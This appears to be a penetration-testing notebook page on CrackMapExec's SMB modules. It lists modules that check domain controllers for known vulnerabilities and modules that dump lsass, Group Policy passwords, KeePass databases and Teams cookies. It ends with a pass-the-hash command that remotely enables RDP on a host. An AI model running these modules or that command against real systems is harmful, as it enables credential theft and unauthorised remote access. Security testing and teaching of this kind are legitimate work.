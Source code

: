 ```yaml
---
description: CrackMapExec Modules to attack SMB Protocol.
cover: ../../../.gitbook/assets/CrackMapExec - SMB Modules.png
coverY: 0
---
```


# 🟢 SMB Modules

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<div align="center">

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

</div>

### Vulnerabilities <a href="#vulnerabilities" id="vulnerabilities"></a>

|  SMB Module  |                                                   Description                                                  |
| :----------: | :------------------------------------------------------------------------------------------------------------: |
|   ZeroLogon  |                     Module to check if the DC is vulnerable to Zerologon aka CVE-2020-1472                     |
|  Petitpotam  |                    Module to check if the DC is vulnerable to PetitPotam, credit to @topotam                   |
|   ms17-010   |                                    MS17-010, /!\ not tested oustide home lab                                   |
|   dfscoerce  |    Module to check if the DC is vulnerable to DFSCocerc, credit to @filip\_dragovic/@Wh04m1001 and @topotam    |
|     nopac    | Check if the DC is vulnerable to CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user |
| shadowcoerce |          Module to check if the target is vulnerable to ShadowCoerce, credit to @Shutdown and @topotam         |

### Credentials <a href="#credentials" id="credentials"></a>

|       Module      |                                                        Description                                                        |
| :---------------: | :-----------------------------------------------------------------------------------------------------------------------: |
|   gpp\_autologin  |    Searches the domain controller for registry.xml to find autologon information and returns the username and password.   |
|   gpp\_password   |        Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.       |
|     handlekatz    |                            Get lsass dump using handlekatz64 and parse the result with pypykatz                           |
|    hash\_spider   |                           Dump lsass recursively from a given hash using BH to find local admins                          |
| keepass\_discover |                                       Search for KeePass-related files and process.                                       |
|  keepass\_trigger |                          Set up a malicious KeePass trigger to export the database in cleartext.                          |
|       lsassy      |                                    Dump lsass and parse the result remotely with lsassy                                   |
|       masky       |                                Remotely dump domain user credentials via an ADCS and a KDC                                |
|   teams\_localdb  | Retrieves the cleartext ssoauthcookie from the local Microsoft Teams database, if teams is open we kill all Teams process |
|      wdigest      |           Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1           |
|      wireless     |                                             Get key of all wireless interfaces                                            |

### Remote Code Execution

#### Activate RDP on the remote Host

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>RDP Activation</p></figcaption></figure>

```
crackmapexec smb 10.9.20.13 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:7574cbf9d92c39d1d4dccd7b89301d2f' -x 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'
```
